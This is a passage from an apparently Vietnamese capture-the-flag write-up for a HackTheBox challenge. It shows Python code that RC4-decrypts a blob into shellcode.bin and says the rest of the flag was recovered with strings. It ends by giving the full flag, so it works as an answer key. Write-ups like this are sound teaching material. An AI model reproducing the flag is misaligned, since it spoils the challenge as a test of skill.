    j = (j + S[i] + KEY[i % len(KEY)]) & 0xff
    S[i], S[j] = S[j], S[i]
out = bytearray()
i = j = 0
for b in enc:
    i = (i + 1) & 0xff
    j = (j + S[i]) & 0xff
    S[i], S[j] = S[j], S[i]
    out.append(b ^ S[(S[i] + S[j]) & 0xff])
open(OUTPUT, "wb").write(out)
```

Cuối cùng khi thu được file shellcode.bin và dùng strings để check nhanh thì thu được phần còn lại của flag là St4y_4l3Rt_4ND_r3Ly_0n_y0ur$3Lf}



## 7. Flag

Vậy flag là:

```text
HTB{B1G_Br0Th3r_1$_WatCH1ng_St4y_4l3Rt_4ND_r3Ly_0n_y0ur$3Lf}
```
